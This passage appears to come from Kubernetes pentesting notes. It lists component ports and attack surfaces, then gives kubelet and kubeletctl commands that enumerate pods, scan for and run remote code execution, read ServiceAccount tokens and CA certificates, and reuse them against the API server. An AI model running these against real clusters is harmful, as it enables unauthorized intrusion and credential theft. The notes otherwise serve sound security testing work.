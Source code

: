 * `etcd` — `2379`, `2380`
* `kube-apiserver` — `6443`
* `kube-scheduler` — `10251`
* `controller-manager` — `10252`
* `kubelet` API — `10250` (secure), `10255` (read-only, deprecated in many setups)


### 4. Attack surface to check (high level)

* **Open/accessible kube-apiserver** (unauthenticated or weak auth).
* **Exposed kubelet API** (unauthenticated read or exec access).
* **ServiceAccount tokens** mounted in pods (`/var/run/secrets/...`).
* **Over-privileged ServiceAccounts / RBAC misconfig**.
* **HostPath volumes** or container running as root → host compromise.
* **Image vulnerabilities** (outdated images with CVEs).
* **Automounting of ServiceAccount token** in pods (default behavior).


### 5. Useful reconnaissance & exploitation commands

* Test API server accessibility:

```bash
curl https://<API_SERVER>:6443 -k
# typical anonymous response: 403 Forbidden (system:anonymous)
```

* Enumerate pods via kubelet (if kubelet API open):

```bash
curl https://<NODE_IP>:10250/pods -k | jq .
```

* Use `kubeletctl` (example) to list pods and scan for RCE:

```bash
kubeletctl -i --server <NODE_IP> pods
kubeletctl -i --server <NODE_IP> scan rce
```

* Exec into a container (if allowed via kubelet):

```bash
kubeletctl -i --server <NODE_IP> exec "id" -p <POD_NAME> -c <CONTAINER_NAME>
# Shows uid/gid (look for uid=0 → root)
```

* Extract service account token & cluster CA from a pod:

```bash
kubeletctl --server <NODE_IP> exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p <POD> -c <C>
kubeletctl --server <NODE_IP> exec "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" -p <POD> -c <C>
```

* Test permissions (once you have a token + CA):

```bash
export TOKEN=$(cat ./k8.token)
kubectl --token=$TOKEN --certificate-authority=ca.crt --server=https://<API_SERVER>:6443 auth can-i --list
```
